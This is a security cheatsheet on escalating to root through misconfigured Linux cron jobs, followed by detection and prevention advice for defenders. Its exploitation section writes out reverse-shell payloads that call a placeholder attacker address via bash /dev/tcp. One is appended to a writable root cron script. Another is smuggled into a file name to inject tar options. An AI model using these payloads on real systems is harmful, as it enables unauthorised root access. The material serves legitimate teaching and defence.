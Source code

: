 ## 🤖 Cheatsheet: Cron Job Privilege Escalation

Cron is the standard job scheduler in Linux, used to run tasks automatically at specific times. A misconfiguration arises when a cron job, especially one running as **root**, interacts with a script or directory that can be modified by a lower-privileged user. This allows the user to inject malicious code that will be executed with the high privileges of the cron job.

### ## What to Look For (Reconnaissance)

An attacker will look for scheduled tasks and then check the permissions of everything they touch.

* **List System-Wide Cron Jobs:**
    ```bash
    cat /etc/crontab
    ls -l /etc/cron.d/
    ls -l /etc/cron.hourly/
    ls -l /etc/cron.daily/
    ls -l /etc/cron.weekly/
    ls -l /etc/cron.monthly/
    ```

* **Check User-Specific Cron Jobs:** (Less likely for privesc unless you can edit another user's crontab)
    ```bash
    crontab -l
    cat /var/spool/cron/crontabs/root
    ```

* **Monitor Running Processes:** Tools like **pspy** are excellent for dynamically monitoring a system. They will show you cron jobs executing in real-time, which can reveal scripts that are not obvious from static analysis.
    ```bash
    # Run pspy to see all process starts
    ./pspy64
    ```
    

---

### ## Common Exploitable Scenarios & Payloads

The goal is to find a way to modify what the privileged cron job executes.

#### **Scenario 1: Writable Cron Script**
This is the most common and direct vulnerability. A script executed by a root cron job is writable by a non-root user.

* **Discovery:**
    1.  You see a job in `/etc/crontab`: `* * * * * root /usr/local/bin/backup.sh`
    2.  You check the script's permissions: `ls -l /usr/local/bin/backup.sh`
    3.  The output shows the file is world-writable (`-rwxrwxrwx`).

* **Exploitation:**
    * Append a reverse shell command to the script. The next time it runs (within one minute), it will connect back to you as root.
        ```bash
        # Set up a listener on your machine: nc -lvnp 4444
        # On the target, append your payload:
        echo 'bash -c "bash -i >& /dev/tcp/YOUR_IP/4444 0>&1"' >> /usr/local/bin/backup.sh
        ```

#### **Scenario 2: PATH Variable Abuse**
The cron job uses a relative path for a command, and a directory in the cron's `$PATH` is writable.

* **Discovery:** The cron job runs `* * * * * root backup-script`. The default cron `$PATH` is often just `/usr/bin:/bin`. If the script is actually in `/usr/local/bin`, but a script *within* it calls another command like `touch` without a full path, an attacker could exploit this if they can write to `/usr/bin`.

* **Exploitation:**
    1.  Create a malicious executable with the same name as the relative command (e.g., `touch`).
    2.  Place it in the writable directory within the cron's `$PATH`.
    3.  When the main script is run by cron, it will execute your malicious file with root privileges.

#### **Scenario 3: Wildcard Injection**
A cron job uses a wildcard (`*`) in a command that can be abused, like `tar` or `chown`.

* **Discovery:** You see a job: `* * * * * root tar -czf /backups/archive.tgz /home/user/files/*`
    The `*` is the vulnerability. `tar` can interpret filenames that start with `--` as options.

* **Exploitation:**
    1.  Go to the `/home/user/files/` directory.
    2.  Create two files:
        ```bash
        touch -- "--checkpoint=1"
        touch -- "--checkpoint-action=exec=bash -c 'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1'"
        ```
    3.  When `tar` runs, it will treat these filenames as command-line arguments, executing your reverse shell.

---

### ## 🛡️ Detection & Remediation (For Defenders)

#### **How to Detect an Attempt**

* **File Integrity Monitoring (FIM):** Use tools like **AIDE** or **Tripwire**. You should receive an immediate alert if a script in `/etc/cron.d/` or `/usr/local/bin/` is modified.
* **Log Auditing:** Check cron logs (often in `/var/log/syslog` or `/var/log/cron`) for unusual activity or failures.

#### **How to Prevent Cron Job Abuse**

* **Enforce Strict File Permissions:** Scripts and binaries executed by root cron jobs should be owned by **root** and should **not** be writable by any other user. A permission of `755` (`-rwxr-xr-x`) or stricter is appropriate.
    ```bash
    sudo chown root:root /path/to/script.sh
    sudo chmod 755 /path/to/script.sh
    ```
* **Always Use Absolute Paths:** Never use relative paths in a cron definition. This prevents any ambiguity and path-related attacks.
    ```
    # Bad:
    * * * * * root backup.sh

    # Good:
    * * * * * root /usr/local/bin/backup.sh
    ```
* **Validate Wildcard Usage:** Be extremely careful when using wildcards. Ensure they are not used on directories where users can create files. When using tools like `tar` or `rsync`, use options that limit wildcard interpretation or path traversal. For `tar`, specifying the path *after* the options can help mitigate this specific attack.
* **Regular Audits:** Periodically review all system and user cron jobs. Check the permissions of every file and directory they reference.
